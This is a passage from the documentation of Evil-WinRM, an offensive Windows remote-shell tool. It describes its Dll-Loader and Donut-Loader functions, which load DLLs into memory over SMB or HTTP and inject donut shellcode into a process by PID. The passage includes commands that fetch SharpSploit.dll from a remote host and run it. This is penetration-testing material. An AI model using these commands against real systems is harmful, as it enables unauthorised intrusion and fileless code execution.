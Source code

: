 - Dll-Loader: allows loading dll libraries in memory, it is equivalent to: `[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("pwn.dll"))`
    
    The dll file can be hosted by smb, http or locally. Once it is loaded type `menu`, then it is possible to autocomplete all functions.
    

```
*Evil-WinRM* PS C:\> Dll-Loader
.SYNOPSIS
    dll loader.
    PowerShell Function: Dll-Loader
    Author: Hector de Armas (3v4Si0N)

    Required dependencies: None
    Optional dependencies: None
.DESCRIPTION
    .
.EXAMPLE
    Dll-Loader -smb -path \\192.168.139.132\\share\\myDll.dll
    Dll-Loader -local -path C:\Users\Pepito\Desktop\myDll.dll
    Dll-Loader -http -path http://example.com/myDll.dll

    Description
    -----------
    Function that loads an arbitrary dll

*Evil-WinRM* PS C:\> Dll-Loader -http http://10.10.10.10/SharpSploit.dll
[+] Reading dll by HTTP
[+] Loading dll...
*Evil-WinRM* PS C:\Users\test\Documents> menu

 [... Snip ...]

*Evil-WinRM* PS C:\> [SharpSploit.Enumeration.Host]::GetProcessList()


Pid          : 0
Ppid         : 0
Name         : Idle
Path         :
SessionID    : 0
Owner        :
Architecture : x64

```

- Donut-Loader: allows to inject x64 payloads generated with awesome [donut](https://github.com/TheWover/donut) technique. No need to encode the payload.bin, just generate and inject!

```
*Evil-WinRM* PS C:\> Donut-Loader
.SYNOPSIS
    Donut Loader.
    PowerShell Function: Donut-Loader
    Author: Luis Vacas (CyberVaca)
    Based code: TheWover

    Required dependencies: None
    Optional dependencies: None
.DESCRIPTION

.EXAMPLE
    Donut-Loader -process_id 2195 -donutfile /home/cybervaca/donut.bin
    Donut-Loader -process_id (get-process notepad).id -donutfile /home/cybervaca/donut.bin

```